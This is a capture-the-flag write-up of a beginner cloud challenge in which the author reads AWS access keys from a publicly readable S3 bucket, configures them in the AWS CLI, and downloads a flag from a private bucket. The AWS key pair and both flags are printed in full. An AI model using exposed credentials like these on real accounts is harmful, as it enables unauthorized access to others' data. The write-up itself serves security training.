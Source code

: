 # TEASER: Locked out
### beginner | cloud | 50 points
## Challenge Information
After a relaxing space walk, you realize that you have been locked out of your spaceship by the spaceship's AI. Thankfully, you remember that you prepared for this eventuality by storing access keys in an external storage.

## Sub-Tasks
### [25 points] Obtaining external access keys
Open the external storage and see if there's something useful in there.

#### Solution

The link to the external storage leads to `https://external-spaceship-storage-b38e8c6.s3-eu-west-1.amazonaws.com`, an AWS S3 bucket.

![](images/1-external-storage.png)

There is an item called `external-spaceship-storage.txt`. The file can be downloaded by typing the filename in the URL, i.e., `https://external-spaceship-storage-b38e8c6.s3-eu-west-1.amazonaws.com/external-spaceship-storage.txt`.

The contents are as follows:

```
AKIAQD6AU4VDTDJRGXRE
+BAPTBu9QFX6TVSpjerFoIJiJJr1D+c210ZyKdqv
CTF{6c2c45330a85b126f551}
```

The last line is the flag for the first sub-challenge, and the rest of the information will be useful for the next sub-challenge.

Flag: `CTF{6c2c45330a85b126f551}`

### [25 points] Checking your internal storage
You have managed to get keys. See if you can get inside and check the internal spaceship storage.

#### Solution
This part took me FOREVER to figure out due to the fact that I had absolutely no clue how AWS S3 buckets work. Looking through some cloud challenges from other CTFs and the AWS docs, I figured that remaining information from `external-spaceship-storage.txt` is what helps to complete this challenge. 

```markdown
AKIAQD6AU4VDTDJRGXRE - AWS Access Key ID
+BAPTBu9QFX6TVSpjerFoIJiJJr1D+c210ZyKdqv - AWS Secret Access Key
```

From the AWS Documentation:
> AWS requires different types of security credentials depending on how you access AWS. For example, you need a user name and password to sign in to the AWS Management Console and you need access keys to make programmatic calls to AWS or to use the AWS Command Line Interface or AWS Tools for PowerShell.

So the AWS Access Key ID and Secret Access Key are credentials for an AWS account. This can be configured in the AWS CLI (Command Line Interface) to view buckets and items within those buckets associated with the account. The steps to install AWS CLI for your system can be found [here](https://docs.aws.amazon.com/cli/latest/userguide/cli-chap-install.html).

Once installed, we configure AWS CLI with these credentials. Using --profile helps to distinguish between different credentials.
```bash
piyagehi@Piyas-MacBook-Pro-2:~$ aws configure --profile=locked-out
AWS Access Key ID [None]: AKIAQD6AU4VDTDJRGXRE
AWS Secret Access Key [None]: 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
Default region name [None]: eu-west-1
Default output format [None]: 
```

Listing all buckets reveals an internal storage bucket, which contains a keys text file.
```bash
piyagehi@Piyas-MacBook-Pro-2:~$ aws s3 ls --profile=locked-out
2021-06-24 19:36:05 external-spaceship-storage-b38e8c6
2021-06-24 19:35:27 internal-spaceship-storage-fdde98f
piyagehi@Piyas-MacBook-Pro-2:~$ aws s3 ls internal-spaceship-storage-fdde98f --profile=locked-out
2021-06-24 19:35:33 25 spaceship-keys
```

Downloading and viewing the file reveals the flag for this sub challenge
```bash
piyagehi@Piyas-MacBook-Pro-2:~$ aws s3 cp s3://internal-spaceship-storage-fdde98f/spaceship-keys . --profile=locked-out
download: s3://internal-spaceshipstoragefdde98f/spaceship-keys to ./spaceship-keys
piyagehi@Piyas-MacBook-Pro-2:~$ cat spaceship-keys 
CTF{4ababede5580d9a22a2a}
```

Flag: `CTF{4ababede5580d9a22a2a}`


